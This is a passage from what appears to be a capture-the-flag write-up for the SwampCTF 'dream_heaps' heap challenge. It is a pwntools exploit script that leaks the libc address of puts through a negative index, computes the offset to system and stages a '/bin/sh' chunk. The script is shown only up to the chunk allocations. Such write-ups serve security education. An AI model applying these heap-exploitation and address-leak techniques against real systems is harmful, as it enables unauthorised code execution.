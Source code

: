 ### Code

Putting it all together into our exploit, we get:
```
from pwn import *

target = remote("chal1.swampctf.com", 1070)
#target = process('./dream_heaps', env={"LD_PRELOAD":"./libc6.so"})
#gdb.attach(target)

puts = 0x662f0
system = 0x3f630
offset = system - puts

def write(contents, size):
	print target.recvuntil('> ')
	target.sendline('1')
	print target.recvuntil('dream?')
	target.sendline(str(size))
	print target.recvuntil('dream?')
	target.send(contents)

def read(index):
	print target.recvuntil('> ')
	target.sendline('2')
	print target.recvuntil('read?')
	target.sendline(str(index))
	leak = target.recvuntil("What")
	leak = leak.replace("What", "")
	leak = leak.replace("\x0a", "")
	leak = leak + "\x00"*(8 - len(leak))
	leak = u64(leak)
	log.info("Leak is: " + hex(leak))
	return leak

def edit(index, contents):
	print target.recvuntil('> ')
	target.sendline('3')
	print target.recvuntil('change?')
	target.sendline(str(index))
	#raw_input()
	target.send(contents[:6])

def delete(index):
	print target.recvuntil('> ')
	target.sendline('4')
	print target.recvuntil('delete?')
	target.sendline(str(index))


puts = read(-263021)


write('/bin/sh\x00', 0x10)
write('0'*10, 0x20)
write('0'*10, 0x30)
write('0'*10, 0x40)
write('0'*10, 0x50)
write('0'*10, 0x60)
write('0'*10, 0x70)
write('0'*10, 0x80)
write('0'*10, 0x90)
write('0'*10, 0xa0)
```
